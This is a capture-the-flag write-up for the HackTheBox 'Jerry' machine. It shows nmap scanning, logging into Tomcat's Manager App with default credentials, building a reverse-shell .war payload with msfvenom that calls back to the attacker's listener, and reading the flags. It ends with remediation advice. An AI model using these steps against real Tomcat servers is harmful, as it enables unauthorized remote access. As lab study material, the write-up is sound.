 
<p align="center">
  <img src="./screenshots/jerry_logo.png" alt="jerry_logo"/>
</p>

---

- 🎯 **Target:** HackTheBox - Jerry Windows
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 04.03.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Web vulnerabilities
- 💻 **Platform:** Windows

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Entry Point](#-entry-point--initial-access)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    |
|---------------|-------------------------------------------|
|   User Flag   | `flag{7004dbcef0f854e0fb401875f26ebd00}`  |
|   Root Flag   | `flag{04a8b36e1545a455393d067e772fe90e}`  |
|  Credentials  | `tomcat:s3cret`	                    |
|   Technique   | `Insecure Files Upload Attack`	    |

---

> add the machine's IP address to /etc/hosts:

```bash

echo '10.10.10.95 jerry.htb' | sudo tee -a /etc/hosts

```

---
## 🕵️  Reconnaissance

> I scan the target for open ports and services via `nmap`:

```bash

sudo nmap -sVC -p- -vv -T5 jerry.htb -oN jerry_tcp_scan

```
> Results:

```bash

8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

```

> Scanning showed only one open port `8080`.
> Open in browser:

![tomcat_main_web](./screenshots/tomcat_main_web.png)

> We see the start page of the Apache Tomcat web server

> Go to `Manager App` since that is where the list of all deployed applications is located in **Tomcat**

![tomcat_app](./screenshots/tomcat_app.png)

> But you can’t just get there - this functionality requires elevated privileges (for example, administrator).

![tomcat_access_denied](./screenshots/tomcat_access_denied.png)

> Ok. I Need credentials.

> I found a **wordlist** with credentials for `Tomcat` that can be installed by default:

![tomcat_creds](./screenshots/tomcat_creds.png)

> Using the enumeration method I found the correct pair - `tomcat`:`s3cret`.

> Go to `Manager App`

![tomcat_manager_app](./screenshots/tomcat_manager_app.png)

> I see a list of deployed applications as well as the functionality for adding a new **Java** application. `Tomcat` allows you to download certain types of files - so-called `.war` archives
> which it can independently deploy and display in the list of applications.

---
## 🚪 Entry Point / initial access

---

**Note:** `.war` is a special file format (extension) designed for deploying **Java** applications on `Apache Tomcat` servers. This format is correct for `Tomcat` since it contains all the
necessary components for deploying and running the application itself - `JSP files`, `servlets`, `HTML pages`, `static resources` and `configuration files`.

---

> If there is no filtering or validation of uploaded files on the server side, then having access to the web applications administration panel I can implement an attack of the `Insecure File Upload` type
> which will allow me to gain access to the system.

> Since the application deployment functionality can only accept `.war` files for upload I will generate a suitable payload for the `.war` file via `msfvenom`:

```bash

msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f war -o reverse.war

Payload size: 13033 bytes
Final size of war file: 13033 bytes
Saved as: reverse.war

```

> Uploading the finished `.war` archive to the server:

![tomcat_deploy](./screenshots/tomcat_deploy.png)

> Our downloaded `reverse` appeared in the list of applications.

> I launch the listener and open `reverse` in the browser to activate the payload:

![tomcat_reverse](./screenshots/tomcat_reverse.png)

> Reverse Shell:

![tomcat_admin](./screenshots/tomcat_admin.png)

---

**Note:** `Insecure File Upload` is a web vulnerability that exploits the ability of web applications to expand using user information using functions
to upload something to the server - `files`, `pictures`, `documents`, etc. If the data uploaded by the user is not filtered and checked properly, this can
lead to the execution of arbitrary malicious code on the server side.

---

> Flags are in the directory `C:\Users\Administrator\Desktop\flags`:

```bash

C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\apache-tomcat-7.0.88>

```

> Machine is pwned.

---
## 🧠 Conclusion

> During the machine walkthrough a running `Apache Tomcat` web server was detected on port `8080`. Access to the application administration panel was obtained by exploiting
> `insecure default credentials`. The lack of any filtering when uploading files to the server resulted in access to the system with Administrator privileges by obtaining a
> reverse shell through uploading a `.war` archive containing malicious code. The `Insecure File Upload` vulnerability is dangerous because it allows easy access to the system
> without being an Administrator.

> To eliminate the vulnerabilities, it is necessary to:

- Implement full control over access rights. Do not use default credentials to avoid unauthorized access to the administration functionality. Users should not have excessive privileges.
- Be sure to implement `verification of uploaded files`. It is necessary to strictly check and limit the upload of `.war` files.

<p align="center">
  <img src="./screenshots/solved_machine.png" alt="solved_mschine"/>
</p>
